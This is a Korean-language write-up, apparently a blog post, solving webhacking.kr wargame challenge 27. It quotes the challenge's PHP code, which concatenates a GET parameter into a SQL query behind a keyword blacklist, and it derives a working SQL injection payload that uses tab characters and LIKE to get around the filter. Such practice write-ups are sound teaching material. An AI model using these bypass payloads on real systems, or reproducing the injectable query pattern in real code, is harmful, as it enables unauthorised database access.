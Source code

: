 ```yaml
---
title: "[webhacking.kr] 27번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "27번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 27번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
  ![image](https://user-images.githubusercontent.com/33647663/151708539-f682bb27-54cb-492b-9bc2-0c3cfb83f886.png)

## 문제 소스 코드
  ```php
  <?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
  ```

  
## 문제 풀이
  **필터링 되는 문자들**
  | 1 | 2 | 3 | 4 | 5 | 6| 7 |
  |:---:|:---:|:---:|:---:|:---:|:---:|:---:|
  |#|select|(| %20 | limit | = | 0x |


  **sql**
  ```sql
  select id from chall27 where id='guest' and no = ({});
  ```

  해당 문제를 풀기 위한 1차 injection 문을 작성하면 다음과 같다
  ```md
  4) or no = 2--  
  ```
  ```sql
  select id from chall27 where id='guest' and no = ( 4) or no = 2 -- ) 
  ```

  해당 injection문에서 필터링을 우회하기 위해서 다음과 같이 바꿔준다.
  1. %20 -> %09
  2. = -> like
  
  ```md
  4)%09or%09no%09like%092--%09
  ```

  클리어 

  ![image](https://user-images.githubusercontent.com/33647663/151709496-68871636-9f18-488f-bde6-f9f993b2e356.png)

  



